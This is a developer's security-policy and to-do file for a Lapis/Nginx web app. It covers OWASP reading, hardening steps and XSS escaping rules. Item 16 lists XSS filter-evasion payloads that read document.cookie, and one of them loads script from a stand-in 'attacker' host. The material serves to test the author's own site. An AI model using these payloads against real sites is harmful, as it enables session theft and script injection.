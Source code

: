 # Security Policy

A bit barebones, but essentially a list of things to be aware of to try to secure things as much as possible.

## ToDo

1. Investigate clickjacking. I doubt we could be vulnerable to this, but it may be possible in the future.
2. Test with Burp Suite ?
3. Check Lapis's HTML entity encoding, it may not be sufficient. (They do not escape forward slashes, but this does not seem 100% needed either.)
4. Read up on Phishing and try to mitigate what I can: https://www.owasp.org/index.php/Phishing
5. Work on data validation (specifically when allowing a user to input a URL): https://www.owasp.org/index.php/Data_Validation
6. Read up on various forms of attack and do what I can to stop them: https://www.owasp.org/index.php/Category:Attack
7. Disable unused HTTP methods:
    ```
    if ($request_method !~ ^(GET|POST)$ )
    {
        return 444;
    }
    ```
8. **URGENT**: User-input data is being used in attributes without being escaped, this may be safe, but might not be. (Ex: A user submitting a form is safe, a site being displayed using data from the database in an attribute is **not**.)
9. Read session management guide: https://www.owasp.org/index.php/Session_Management_Cheat_Sheet
10. Read more about Nginx server hardening: http://www.cyberciti.biz/tips/linux-unix-bsd-nginx-webserver-security.html
11. Read more about Nginx in general, maybe there's something I haven't seen/read in the rest of this... https://wiki.archlinux.org/index.php/Nginx
12. Read OWASP's dev guide: https://github.com/OWASP/DevGuide
13. Read up on code review: https://www.owasp.org/images/2/2e/OWASP_Code_Review_Guide-V1_1.pdf
14. Read OWASP's testing guide: https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents
15. Apparently, these might need to be escaped too? [source](https://www.owasp.org/index.php/Reviewing_Code_for_Cross-site_scripting)
    ```
    (	&#40;
    )	&#41;
    #	&#35;
    ```
16. Try attacking my own site with these (or just the full list [here](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)):
    ```
    "><script >alert(document.cookie)</script >
    "><ScRiPt>alert(document.cookie)</ScRiPt>
    "%3cscript%3ealert(document.cookie)%3c/script%3e
    <scr<script>ipt>alert(document.cookie)</script>
    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
    http://example/page.php?param=<script&param=>[...]</&param=script>
    ```
17. Use this attack tool? http://xss-proxy.sourceforge.net/
    Run this? https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project
    Yet another XSS tool... https://www.owasp.org/index.php/OWASP_Xenotix_XSS_Exploit_Framework

## XSS (Cross-Site Scripting)

HTML entity encoding is done for us by Lapis, however, there are a few places where no matter what is done, XSS cannot be blocked by this method:

> But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL.

[source][1]

Do **not** use user-input data in any of the following:

- `<script>` tags
- in an HTML comment
- tag names
- attribute names
- event handler attributes (ex: onmouseover, onclick)
- inside CSS
- in a URL

Do **not** use user-input data in any attribute without escaping:

> Except for alphanumeric characters, escape all characters with ASCII values less than 256 with the &#xHH; format (or a named entity if available) to prevent switching out of the attribute. The reason this rule is so broad is that developers frequently leave attributes unquoted. Properly quoted attributes can only be escaped with the corresponding quote. Unquoted attributes can be broken out of with many characters, including [space] % * + , - / ; < = > ^ and |.

[source][1]

Don't use user-input data in JavaScript without escaping.. (but I will not use it *at all*) As mentioned above, JSON and CSS can also be very dangerous is not handled correctly, but I am not using them.

These are pulled straight from [OWASP][1].

### Tools for checking XSS vulnerabilities:

- [DOM XSS Scanner](http://www.domxssscanner.com/), web service, does a simple scan of data from server to see if it uses dangerous sinks.
- [Ra.2 DOM XXSS Scanner](https://code.google.com/archive/p/ra2-dom-xss-scanner/), a more complex scan involving submitting exploits and testing for them getting through.
- [DOM Snitch](https://googleonlinesecurity.blogspot.com/2011/06/introducing-dom-snitch-our-passive-in.html), Google Chrome add-on, tracks any time the DOM is modified, and reports when unsafe code is run.
- [DOMinator](https://dominator.mindedsecurity.com/), another scanner, has a pro version..

[1]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
